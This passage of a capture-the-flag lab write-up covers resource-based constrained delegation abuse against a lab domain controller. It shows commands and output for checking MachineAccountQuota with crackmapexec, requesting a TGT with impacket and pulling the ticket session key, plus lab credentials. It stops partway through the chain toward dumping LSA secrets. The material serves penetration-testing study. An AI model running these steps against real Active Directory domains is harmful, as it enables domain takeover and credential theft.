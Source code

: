 This privilege essentially allows us to act on behalf of the domain controller, and request for service tickets on behalf of that domain computer. This privilege in particular allows us to exploit RBCD (resource-based constrained delegation), which can allow us to compromise the domain controller. We've done this exploit in the past on other machines, and it seems as though this is the same type of attack path here.

# RBCD Through SPN-less User

However, there is one primary issue that we face for this machine. Our domain user has a MAQ of 0, meaning they cannot create domain computers that are needed for exploiting RBCD. 

```
└─$ crackmapexec ldap 10.10.103.169 -u crose -p 'Password123@' -M maq
SMB         10.10.103.169   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.103.169   389    DC               [+] phantom.vl\crose:Password123@ 
MAQ         10.10.103.169   389    DC               [*] Getting the MachineAccountQuota
MAQ         10.10.103.169   389    DC               MachineAccountQuota: 0
```

Furthermore, all of the users that we've previously had access to have a MAQ of 0, and there doesn't seem to be any other users that we can escalate our privileges to. (This is due to the fact that the three users that we can compromise as `svc_sspr` are the only domain users that seem to have outbound object control rights over another object)

Normally this would be as far as you'd be able to get, but there is actually something that we can exploit given that we have the `AllowedToActOn` attribute against the DC.

Credit goes out to the article found [here](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd) and[ here](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html) discovered by [James Forshaw](https://x.com/tiraniddo). There is actually a method that we can use to exploit RBCD, though it involves finding our current users ticket session key along with changing their current password to that key.

At a low-level, if we are able to obtain the ticket session key and change that key to be the password hash of our controlled user, we can utilize User-2-User authentication to trick the DC into delegating a service ticket to us. We can combine both U2U and S4U2Proxy to obtain this ticket, and then use it to dump the LSA secrets of the domain controller. This is due to how the KDC interprets ticket session keys that are passed in as NT hashes for a user, allowing them to be treated as computer objects in a sense.

So to start, we'll get the current TGT of the user in order to discover the ticket session key.

```
└─$ impacket-getTGT -hashes :$(pypykatz crypto nt 'Password123@') phantom.vl/crose 
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Saving ticket in crose.ccache
```

We can then use [describeTicket.py](https://github.com/fortra/impacket/blob/master/examples/describeTicket.py) to obtain the ticket session key based on the service ticket for this user. (Note that the ticket session key will be different for your instance of this machine)

```
└─$ python3 describeTicket.py crose.ccache | grep 'Ticket Session Key'
[*] Ticket Session Key            : 4abd87ab347a96df9a497689a79bfd5c
```
